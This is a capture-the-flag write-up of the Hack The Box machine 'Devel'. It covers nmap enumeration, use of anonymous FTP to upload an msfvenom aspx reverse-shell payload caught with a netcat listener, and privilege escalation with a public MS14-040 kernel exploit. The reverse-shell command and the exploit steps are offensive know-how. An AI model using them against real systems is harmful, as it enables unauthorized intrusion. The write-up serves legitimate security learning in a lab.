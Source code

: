```yaml
---
layout: post
title: Hack The Box - Devel
---
```


This post is an overview of my time working through the box "Devel" found in [HackTheBox](https://www.hackthebox.eu)

---
![](/assets/image/attachments/Pasted&#32;image&#32;20210707143314.png)


### Nmap enumeration

```
# Nmap 7.91 scan initiated Mon Jun  7 11:30:40 2021 as: nmap -vvv -p 21,80 -sC -sV -oN 10.10.10.5 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up, received syn-ack (0.044s latency).
Scanned at 2021-06-07 11:30:40 EDT for 8s

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun  7 11:30:48 2021 -- 1 IP address (1 host up) scanned in 8.38 seconds

```

we see immediately that we have anonymous login to the ftp server:
```
ftp-anon: Anonymous FTP login allowed (FTP code 230)
```
and based on the file preview we are given:

```
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
```

I think it is quite likely this is the base directory of the webserver on port 80. Navigating to http://10.10.10.5/welcome.png I confirm this:

![](/assets/image/attachments/Pasted&#32;image&#32;20210608132821.png)

## Reverse shell
with this knowledge we can generate an aspx reverse shell with msfvenom, upload it via the ftp server and then triger it via the web server.

I used the following payload 
```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=53 EXITFUNC=thread -f aspx -o shell.aspx
```

setting up a netcat listener we get a shell

```
└─$ nc -lvnp 53     
Ncat: Version 7.91 ( https://nmap.org/ncat )   
Ncat: Listening on :::53                                               
Ncat: Listening on 0.0.0.0:53                                             
Ncat: Connection from 10.10.10.5.                                          
Ncat: Connection from 10.10.10.5:49157.

Microsoft Windows [Version 6.1.7600]                                               
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```

## Privilege escalation
I discovered that the machine had a .NET framework too old (v3.5) to support running the winPEAS binaries, so I had to resort to the bat file


```
> reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP" /s
.
.
.

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Net Framework Setup\NDP\v3.5\1033  
    Version    REG_SZ    3.5.30729.4926 
    CBS    REG_DWORD    0x1    
    Install    REG_DWORD    0x1   
    SP    REG_DWORD    0x1 

```

we see in the winPEAS output there are no hotfixes installed (in hindsight I should have noticed this from sysinfo)
```
Hotfix(s):                 N/A  
```

we are given many possible kernel exploits to ru nbecause of this

```
"Microsoft Windows 7 Enterprise   "                         
   [i] Possible exploits (https://github.com/codingo/OSCP-2/blob/master/Windows/WinPrivCheck.bat)  
   
MS11-080 patch is NOT installed XP/SP3,2K3/SP3-afd.sys)        
MS16-032 patch is NOT installed 2K8/SP1/2,Vista/SP2,7/SP1-secondary logon)     
MS11-011 patch is NOT installed XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP1/2,7/SP0-WmiTraceMessageVa)                                      
MS10-59 patch is NOT installed 2K8,Vista,7/SP0-Chimichurri)  
MS10-021 patch is NOT installed 2K/SP4,XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP0/1/2,7/SP0-Win Kernel)
MS10-092 patch is NOT installed 2K8/SP0/1/2,Vista/SP1/2,7/SP0-Task Sched)  
MS10-073 patch is NOT installed XP/SP2/3,2K3/SP2/2K8/SP2,Vista/SP1/2,7/SP0-Keyboard Layout)  
MS17-017 patch is NOT installed 2K8/SP2,Vista/SP2,7/SP1-Registry Hive Loading)  
MS10-015 patch is NOT installed 2K,XP,2K3,2K8,Vista,7-User Mode to Ring)   
MS08-025 patch is NOT installed 2K/SP4,XP/SP2,2K3/SP1/2,2K8/SP0,Vista/SP0/1-win32k.sys)    
MS06-049 patch is NOT installed 2K/SP4-ZwQuerySysInfo)                
MS06-030 patch is NOT installed 2K,XP/SP2-Mrxsmb.sys)                     
MS05-055 patch is NOT installed 2K/SP4-APC Data-Free)                  
MS05-018 patch is NOT installed 2K/SP3/4,XP/SP1/2-CSRSS)             
MS04-019 patch is NOT installed 2K/SP2/3/4-Utility Manager)  
MS04-011 patch is NOT installed 2K/SP2/3/4,XP/SP0/1-LSASS service BoF)
MS04-020 patch is NOT installed 2K/SP4-POSIX)   
MS14-040 patch is NOT installed 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-afd.sys Dangling Pointer)                                            
MS16-016 patch is NOT installed 2K8/SP1/2,Vista/SP2,7/SP1-WebDAV to Address)  
MS15-051 patch is NOT installed 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-win32k.sys) 
MS14-070 patch is NOT installed 2K3/SP2-TCP/IP)                       
MS13-005 patch is NOT installed Vista,7,8,2008,2008R2,2012,RT-hwnd_broadcast)   
MS13-053 patch is NOT installed 7SP0/SP1_x86-schlamperei)  
MS13-081 patch is NOT installed 7SP0/SP1_x86-track_popup_menu) 
```

with some google fu, I found a binary to exploit one of these [here](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-040). Uploading it via ftp and running it we get system. Now it is simply the case of reading the flags

```
c:\Users\babis\Desktop>type user.txt.txt                                       
type user.txt.txt                                         
<flag_here>
```

```
c:\Users\Administrator\Desktop>type root.txt         
type root.txt                                                                    
<flag_here> 
```

### Conclusion
Fun box, I ignored the obvious path to privesc for a while because well I thought it was too obvious, I won't make the same mistake again
